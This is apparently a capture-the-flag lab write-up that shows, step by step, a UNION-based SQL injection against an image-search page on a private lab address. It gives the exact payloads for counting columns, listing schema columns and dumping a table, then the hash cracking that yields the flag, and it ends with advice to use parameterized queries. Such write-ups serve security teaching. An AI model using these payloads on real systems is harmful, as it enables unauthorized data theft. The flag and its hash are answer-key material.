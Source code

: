 # SQL INJECTION IMAGE

## The flag

```
THE FLAG IS : f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188
```

## How to find it ?

On the page http://10.12.1.121/index.php?page=searchimg

- To get the request columns number
1 OR 1=1 UNION SELECT NULL, NULL--
-> good so 2 columns

- To get the users columns names
1 AND 1=2 UNION SELECT table_name, column_name FROM information_schema.columns
-> id, url, title, comment

- To see all user's data
1 AND 1=2 UNION SELECT id, CONCAT(url, title, comment) FROM list_images
-> borntosec.ddns.net/images.pngHack me ?If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46

- Finally "Decrypt this password -> then lower all the char. Sh256 on it and it's good !"
md5_decrypt('1928e8083cf461a51303633093573c46')
-> albatroz
lower('albatroz')
-> albatroz
sh256('albatroz')
-> f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188


## How to use it ?

Dump and get all database infos


## How to avoid it ?

Always use parameterized statements in SQL request. If you can't, you must at least escaping inputs.